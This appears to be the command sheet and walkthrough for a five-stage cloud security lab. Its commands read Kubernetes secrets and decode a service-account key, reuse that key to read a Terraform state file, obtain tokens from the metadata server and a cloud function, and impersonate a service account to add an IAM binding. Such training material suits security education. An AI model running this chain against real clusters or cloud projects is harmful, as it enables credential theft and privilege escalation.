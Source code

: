 # Commands

<details>
  <summary>***** Challenge 1 *****</summary>

## Challenge 1

set cluster IP
#####
    export IP=<IP>

Access API
#####
    curl -k https://$IP/api

Set your token as environment variable.  
#####
    export TOKEN=<token>

Send a request with your token to the Kubernetes API:  
#####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/

You can find out which permissions 'system:authenticated' has on this cluster with a request to this endpoint:  
#####
    curl -k -X POST -H "Content-Type: application/json" -d '{"apiVersion":"authorization.k8s.io/v1", "kind":"SelfSubjectRulesReview", "spec":{"namespace":"default"}}' -H "Authorization:Bearer $TOKEN" https://$IP/apis/authorization.k8s.io/v1/selfsubjectrulesreviews

You can also query them by using the Kubernetes API:  
#####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/pods

  <details>
    <summary>Walkthrough Challenge 1</summary>
  
  You can read Kubernetes secrets in the default namespace on the cluster. Which secrets might it hold?  
  #####
      curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/secrets
  
  The secret values are base64 encoded. Decode them to read the value:  
  #####
      echo -n <secret-value> | base64 -d  

  Safe blob to file
  #####
      echo -n <secret-value> | base64 -d  > /tmp/sa_key.json
  
  </details>

</details>

#

<details>
  <summary>***** Challenge 2 *****</summary>

## Challenge 2

set project id
#####
    export PROJECT_ID=nodal-seer-306517

activate service account
#####
    gcloud auth activate-service-account --key-file /tmp/sa_key.json

check service account
#####
    gcloud auth list

  <details>
    <summary>Walkthrough Challenge 2</summary>

  List files on bucket
  #####
    gsutil ls gs://file-uploads-$PROJECT_ID

  Read state file on bucket
  #####
    gsutil cat gs://file-uploads-$PROJECT_ID/default.tfstate

  
  </details>

</details>

#

<details>
  <summary>***** Challenge 3 *****</summary>

## Challenge 3

read state file
#####
    gsutil cat gs://file-uploads-$PROJECT_ID/default.tfstate

  <details>
    <summary>Walkthrough Challenge 3</summary>
    
  ssh into vm
  #####
    ssh -i <private key file> alice@<compute instance IP> 

  </details>

</details>

#

<details>
  <summary>***** Challenge 4 *****</summary>

## Challenge 4

show VM service account
#####
    gcloud auth list

background: metadata server
#####
    curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/" -H "Metadata-Flavor: Google"

demonstrate limited access scopes
#####
    gcloud compute instances list

show access scopes from tokeninfo endpoint
#####
    curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$(gcloud auth print-access-token)

list storage buckets from VM
#####
    gsutil ls

  <details>
    <summary>Walkthrough Challenge 4</summary>

  list function source code bucket
  #####
      gsutil ls gs://cloud-function-bucket-challenge4

  read source code
  #####
      gsutil cat gs://cloud-function-bucket-challenge4/main.py

  execute function invocation script
  #####
      ./invoke_monitoring_function.sh

  extract command to get function token
  #####
    curl -s -X POST https://$LOCATION-$PROJECT_ID.cloudfunctions.net/monitoring-function -H "Authorization: bearer $(gcloud auth print-identity-token)" -H "Content-Type: application/json" -d '{"metadata": "token"}'

  save the new token in env var and check access scopes
  #####
    curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$TOKEN
    
  </details>

</details>

#

<details>
  <summary>***** Challenge 5 *****</summary>

## Challenge 5

set token as env var
#####
     export CLOUDSDK_AUTH_ACCESS_TOKEN=<function token>

Get project permissions
#####
    gcloud projects get-iam-policy $PROJECT_ID

List the other service accounts on this project:
#####
    gcloud iam service-accounts list

Describe role
#####
    gcloud iam roles describe TerraformPipelineProjectAdmin --project $PROJECT_ID

Describe bindings on SA
#####
    gcloud iam service-accounts get-iam-policy <terraform service account>

  <details>
    <summary>Walkthrough Challenge 5</summary>
  
  impersonate and set binding
  #####
    gcloud projects add-iam-policy-binding $PROJECT_ID --member=user:<your Google account> --role=roles/viewer --impersonate-service-account <terraform pipeline account>
  
  </details>

</details>


